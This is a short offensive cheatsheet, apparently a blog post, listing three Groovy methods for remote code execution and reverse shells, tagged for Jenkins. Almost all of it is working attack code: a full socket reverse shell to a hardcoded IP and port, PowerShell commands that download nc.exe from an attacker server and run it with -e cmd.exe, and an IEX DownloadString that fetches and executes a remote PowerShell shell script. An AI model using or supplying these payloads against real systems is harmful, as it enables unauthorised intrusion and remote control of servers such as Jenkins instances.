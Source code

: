 ```yaml
---
title: "Groovy Script — Remote Code Execution"
date: 2021-08-2 18:54 +0600
categories: [Cheatsheets,Scripts]
tags: [Remote Code Execution,Groovy,RCE,Jenkins, Reverse Shell]
image: /assets/Posts/groovy.jpg
permalink: /Groovy-Script—RCE/

---
```


> This cheatsheet describes various methods for executing remote code in Groovy Language to get an reverse shell.

![](/assets/Posts/groovy.jpg)

## Method 1:

```console
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Method 2:

#### Testing code execution

```console
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Uploading nc on victim machine

```console
def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute();
println("${process.text}");
```

#### Executing nc to get reverse shell

```console
def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute();
println("${process.text}");
```

## Method 3:

```console
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

